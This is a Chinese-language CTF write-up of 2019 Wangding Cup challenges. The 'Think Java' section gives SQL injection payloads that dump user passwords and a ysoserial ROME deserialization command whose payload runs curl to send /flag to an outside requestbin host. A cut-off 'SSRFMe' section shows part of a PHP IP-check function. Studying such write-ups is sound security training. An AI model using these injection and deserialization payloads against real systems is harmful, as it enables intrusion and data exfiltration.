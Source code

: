 # 网鼎杯2019 其他组复现

## Think Java

```
jdbc:mysql://localhost:3306/数据库名?user=用户名&password=密码&useUnicode=true&characterEncoding=utf-8&serverTimezone=GMT
```

存在注入点

```
myapp#' union select database()#;
myapp#' union select pwd from user#;
myapp#' union select name from user#;
myapp?useUnicode=true'union/**/select/**/group_concat(pwd)from(user)#
```

可以得到用户名``admin``密码``admin@Rrrr_ctf_asde``

访问登录路由可以得到

```json
{
	"data":"Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu",
	"msg":"登录成功",
	"status":2,
	"timestamps":1602227051479
}
```

>下方的特征可以作为序列化的标志参考:
>一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
>或者如果以aced开头，那么他就是这一段Java序列化的16进制。
>https://www.cnblogs.com/20175211lyz/p/13412945.html


利用Burp Suite的插件Java Deserialization Scanner可以测试到ROME类型的反序列化

生成payload打一打

```
java -jar ysoserial.jar ROME "curl http://http.requestbin.buuoj.cn/snc3wasn -d @/flag" |base64 -w 0
```

## SSRFMe 玄武组

首先是绕过内网IP检测

```php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
```